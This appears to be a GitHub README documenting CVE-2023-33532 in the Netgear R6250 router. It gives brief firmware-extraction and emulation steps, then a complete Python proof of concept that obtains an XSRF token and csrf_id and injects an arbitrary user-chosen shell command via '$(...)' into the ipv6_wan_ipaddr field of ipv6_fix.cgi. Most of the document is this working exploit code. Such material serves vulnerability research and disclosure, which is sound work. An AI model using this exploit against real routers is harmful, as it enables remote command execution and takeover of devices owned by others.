






# Install binwalk
The following are all usage in ubuntu20.  
sudo apt-get install binwalk  (No need to install binwalk from github, apt installation is enough)  

# Firmware download
https://www.netgear.com/support/download/?model=R6250

# How to use binwalk
binwalk -Me R6250-V1.0.4.48_10.1.30.chk  

# Enter the decompressed target file

# View the elf you want to analyze

# View elf's associated library

# Disassemble target firmware via ghidra or ida pro

For details on static analysis, see:https://github.com/D2y6p/CVE/blob/main/Netgear/CVE-2023-33532/Netgear_R6250_RCE.pdf  

# Use firmae to emulate firmware
https://github.com/pr0v3rbs/FirmAE

# Configure username and password
Log in to 192.168.1.1 (remember to turn off vpn) and configure username and password

# Use simplified POC
<pre>
#!/usr/bin/python3

import requests
import base64
import re

target = input("Enter Target IP : ")
username = input("Enter Target username : ")
passwd = input("Enter Target passwd : ")
cmd = input("Enter you want cmd : ")

username_passwd = username + ":" + passwd
auth = base64.b64encode(username_passwd.encode('utf-8')).decode("utf-8")
print(auth)

#request 1 : get XSRF_TOKEN
burp0_url = "http://" + target + ":80/IPV6_fixed.htm"
burp0_cookies = {"XSRF_TOKEN": "2267229739"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Authorization": "Basic 123123", "Connection": "close",  "Upgrade-Insecure-Requests": "1"}
response1 = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)

if 'Set-Cookie' in response1.headers:
    set_cookie = response1.headers['Set-Cookie']
    print(f'The Set-Cookie value is: {set_cookie}')
else:
    print('No Set-Cookie field in the response header')

pattern = r'(?<=\=)([^;]*)'
XSRF_TOKEN = re.findall(pattern, set_cookie)[0]
print(XSRF_TOKEN)

#request 2 : get csrf_id
burp0_cookies = {"XSRF_TOKEN": XSRF_TOKEN}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Authorization": "Basic " + auth, "Connection": "close", "Upgrade-Insecure-Requests": "1"}
response2 = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
pattern = r'cgi\?id=([\w\d]+)'
csrf_id = re.search(pattern, response2.text).group(1)
print("csrf_id is :" + csrf_id)

#request 3 : send payload
burp0_url = "http://" + target + ":80/ipv6_fix.cgi?id=" + csrf_id
burp0_data = {"apply": "Apply", "login_type": "Fixed", "ipv6_wan_ipaddr": "$(" + cmd + ")","ipv6_proto": "fixed"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "text/plain", "Origin": "http://" + target, "Authorization": "Basic " + auth, "Connection": "close", "Upgrade-Insecure-Requests": "1"}

response3 = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)

print('end!!!')
</pre>

# View Results
